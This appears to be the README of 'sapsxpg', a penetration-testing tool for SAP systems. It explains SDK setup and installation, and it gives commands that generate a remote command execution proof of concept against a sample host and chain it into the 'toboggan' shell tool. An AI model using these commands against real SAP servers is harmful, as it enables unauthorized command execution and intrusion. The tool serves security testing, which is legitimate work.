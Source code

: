 

## Requirement

The `NWRFCSDK` is proprietary SAP software, not open source. It requires an S-User account and specific permissions to download. Since SAP owns the intellectual property, it cannot be published or included inside this repository.

1. Visit the [SAP Support Portal](https://support.sap.com/en/product/connectors/nwrfcsdk.html).
2. Download the appropriate version for your operating system.
3. Follow the [installation guide](https://community.sap.com/t5/technology-blog-posts-by-members/connecting-python-with-sap-step-by-step-guide/ba-p/13452893).

If you already have `nwrfcsdk` dropped somewhere on your system, you can, in a Linux environment, find-it with:

```shell
find /home /usr/local /opt /srv -type d -path "*/nwrfcsdk" -print -quit 2>/dev/null
```

It will give you a path, use this one to export the two mandatory variables:
```shell
NWRFCSDK_PATH=$(find /home /usr/local /opt /srv -type d -path "*/nwrfcsdk" -print -quit 2>/dev/null | head -1)
export SAPNWRFC_HOME=$NWRFCSDK_PATH
export LD_LIBRARY_PATH="$NWRFCSDK_PATH/lib:"
```

## Installation

```shell
pipx install 'git+https://github.com/n3rada/sapsxpg.git'
```

## Usage

```shell
sapsxpg aw01585632.aws.sap-noprod.example.com SAPTEST P@ass!w0rd/7
```

## Remote Command Execution (RCE)

If the underlying system contains a command that allows you to execute commands on the remote system, you can connect it with [`toboggan`](https://github.com/n3rada/toboggan). First of all, generate the Remote Commande Execution proof of concept (PoC) with:
```shell
sapsxpg 'aw01585632.aws.sap-noprod.example.com' SAPTEST 'P@ass!w0rd/7' --rce-poc "ZSH"
```

It will generate a file named `poc_aw01585632.aws.sap-noprod.example.com_ZSH.py`. Plug-it with `toboggan`:

```shell
toboggan -m poc_aw01585632.aws.sap-noprod.example.com_ZSH.py
```



